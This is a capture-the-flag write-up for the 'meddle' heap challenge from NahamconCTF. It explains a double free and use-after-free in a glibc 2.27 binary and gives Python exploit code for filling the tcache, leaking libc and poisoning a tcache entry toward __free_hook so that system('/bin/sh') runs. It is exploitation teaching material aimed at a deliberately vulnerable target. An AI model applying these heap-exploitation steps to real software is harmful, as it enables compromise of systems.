







## NahamconCTF: meddle [pwn]


##### *tl;dr: double free -> tcache poison*

#### Classified as having a hard difficulty, this was a glibc 2.27 heap pwn challenge from the recently held nahamcon ctf. We were given the challenge binary and the corresponding libc needed. It is styled like the usual note-based heap challenges with the summarized capabilities:

```
1. add an album
 - allocates a chunk of size (0x84 + 0xd for alignment). asks for album and artist name. no overflows here.
2. view an album
 - prints details regarding a given album chunk. can view chunk contents even if freed.
3. rate an album
 - gives a rating for an album. 
4. delete an album
 - frees the allocated chunk. does not zero out the pointers leading to a use after free.
```

## Offsets and misalignments
#### Looking closely into the decompiled code, there are a few things that we need to take note of in approaching the challenge, specifically for the add album and rate album functionalities.

#### add_album has the following code, which shows the check that needs to be passed before allocating anything. As I have said earlier there is a limit to how many times we can allocate. Another thing to note of is that the album name stores our input at an offset +4, which causes it to be, in a way, 'misaligned' in memory. 

```c
void add_album(void)

{
  void *pvVar1;
  long lVar2;
  
  if (count < 0x12) {
    pvVar1 = malloc(0x84);
    printf("enter album name: ");
    fgets((char *)((long)pvVar1 + 4),0x50,stdin);
    printf("enter artist name: ");
    fgets((char *)((long)pvVar1 + 0x54),0x30,stdin);
    lVar2 = (long)count;
    count = count + 1;
    *(void **)(albums + lVar2 * 8) = pvVar1;
  }
  else {
    puts("no more albums :(");
  }
  return;
}
```
#### So for example, if we allocate a chunk and fill it with `'A' * 8`, we get the following chunk layout:


#### Unlike the previous function, rate_album allows us to write to the chunk body without the offset, thus filling the untouched space (lower 4 bytes) of a chunk. 

```c
void rate_album(void)

{
  int index;
  undefined4 rating;
  undefined4 *chunk_content;
  
  printf("what album would you like to rate? ");
  index = getnum();
  if ((index < 0) || (count <= index)) {
    puts("invalid index :(");
  }
  else {
    if (*(long *)(albums + (long)index * 8) != 0) {
      printf("\nwhat do you want to rate this album? ");
      chunk_content = *(undefined4 **)(albums + (long)index * 8);
      rating = getnum();
      *chunk_content = rating;
    }
  }
  return;
}
```

## heap fengshui + leaking libc pointers
#### In order to get a leak, we need to get a chunk on the unsorted bin. Since the given libc version has tcache enabled, we need to fill it out first so that the next freed chunk will land on unsorted. 

```python
for i in range(7):

	add_album(chr(ord('A') + i) * 8, chr(ord('A') + i) * 8)

add_album(chr(ord('A') + 7) * 8, chr(ord('A') + 7) * 8) #: 7
add_album("//sh", "AVOIDCONSOLIDATE") 
rate_album(8, 1852400175)
```

#### We allocate chunks[0:6] for the tcache, allocate chunk[7] to go to the tcache bin, and chunk[8] to avoid consolidation with the top chunk when we free chunk[7]. chunk[8] serves more purpose aside from being an anti-consolidation bounday, we will also store the '/bin/sh\x00' string in this chunk and free it once we get control of `__free_hook`. Notice that we write '//sh' first to fill the upper 4 bytes and rate the chunk with an integer form of '/bin' so that we place a properly formed string. 


#### Next step is to fill the tcache bin by freeing 7 chunks. While were at it, we perform the double free on this part by freeing a chunk in the tcache and freeing the same chunk on the unsortedbin. 

```python
for i in range(4):

	delete_album(i)

#: TRY DOUBLE FREE
delete_album(4)
delete_album(7)
delete_album(5)

#: LEAK HERE
delete_album(7)

leak = view_album(7).split()
libc_leak = int(hex(u16(leak[9])) + hex(int(leak[13]))[2:], 16)
libc_base = libc_leak - 0x3ebca0
log.info(hex(libc_leak))
log.info(hex(libc_base))
```

#### With this we now have a chunk which contains libc pointers and we can simply view its contents. The way the program prints out the details is kinda weird in its own way, so we need to parse it first. It's unreliable, so we might want to retry it a couple more times to leak correct addresses. 



## poison
#### Poisoning tcache entries will be harder than usual because of how the program stores its data in the chunks. This is where the rate functionality comes into play again. Since we already know any function's address in libc (and we have a chunk in the tcache which contains libc pointers), we can simply write to the lower 4 bytes of the double freed chunk to point to free_hook's address. We also need to adjust accordingly on the poisoned address, given the way on how our input gets stored. 



#### We just need to allocate the extra chunks and place the address of system on the poisoned free hook address. 



#### Afterwhich, we can free chunk[8] which contains '/bin/sh\x00' to effectively pop a shell and capture the flag.

